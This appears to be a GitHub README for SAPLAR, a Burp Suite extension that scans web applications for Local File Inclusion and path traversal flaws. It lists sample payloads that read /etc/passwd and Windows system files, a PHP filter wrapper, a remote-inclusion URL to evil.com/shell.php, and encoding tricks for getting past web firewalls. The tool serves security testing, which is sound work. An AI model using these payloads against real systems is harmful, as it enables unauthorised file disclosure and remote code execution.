 # SAPLAR
SAPLAR - LFI &amp; Path Traversal Scanner


## Project Overview

SAPLAR is a powerful Burp Suite extension designed to detect Local File Inclusion (LFI) and Path Traversal vulnerabilities in web applications. It is specifically built for penetration testers, bug bounty hunters, and security researchers who need an automated, flexible, and highly efficient LFI scanner within Burp Suite.

This tool injects LFI payloads into various parts of the HTTP request, including:

- **GET Parameters**
- **POST Data**
- **Cookies**
- **HTTP Headers**

SAPLAR analyzes the server response to identify common LFI signatures and indicators. It features automated active scanning, manual scanning, and multiple encoding options to bypass security filters.


## Features

1️⃣ Multi-Vector LFI Injection
SAPLAR automatically injects payloads into multiple request locations:

Query Parameters (?file=../../etc/passwd)
POST Body (file=../../etc/passwd)
Cookies (session=../../etc/passwd)
HTTP Headers (User-Agent, Referer, X-Forwarded-For, Authorization, etc.)
2️⃣ Wide LFI Payload Database
Includes hundreds of payloads targeting:

Linux systems (/etc/passwd, /proc/self/environ, /var/log/auth.log)
Windows systems (C:\Windows\win.ini, C:\boot.ini, C:\Users\Administrator\NTUSER.DAT)
PHP Wrappers (php://filter/convert.base64-encode/resource=index.php)
Log file extraction (../../../../var/log/apache2/access.log)
Remote inclusion possibilities (http://evil.com/shell.php)
3️⃣ Automatic Encoding & WAF Bypass
Payloads can be encoded automatically to bypass security protections like WAF (Web Application Firewalls) and input validation filters.

Base64 Encoding
URL Encoding (Single, Double, Triple)
HEX Encoding
Unicode Encoding
4️⃣ Signature-Based Response Analysis
SAPLAR scans responses for known LFI indicators, such as:

🔹 System Users: "root:x:0:0:", "NT AUTHORITY\\SYSTEM"
🔹 Configuration Files: "[boot loader]", "kernel.core_pattern"
🔹 Error Messages: "failed to open stream", "No such file or directory"
🔹 False Positive Filtering: Detects standard 403/404 responses

5️⃣ Header & Cookie-Based Injection
Injects LFI payloads into common headers:
User-Agent
Referer
X-Forwarded-For
Authorization
X-Api-Key
Accept-Charset
Cookie Manipulation: Tries injecting LFI payloads into cookie values.
6️⃣ GUI Integration in Burp Suite
SAPLAR provides a user-friendly graphical interface in Burp Suite.

✅ A dedicated LFI Scan tab to manage scans.
✅ Right-click on any request in Burp and select "Scan for LFI".
✅ Real-time exploit status updates (Exploited, Not Vulnerable, Possible LFI).

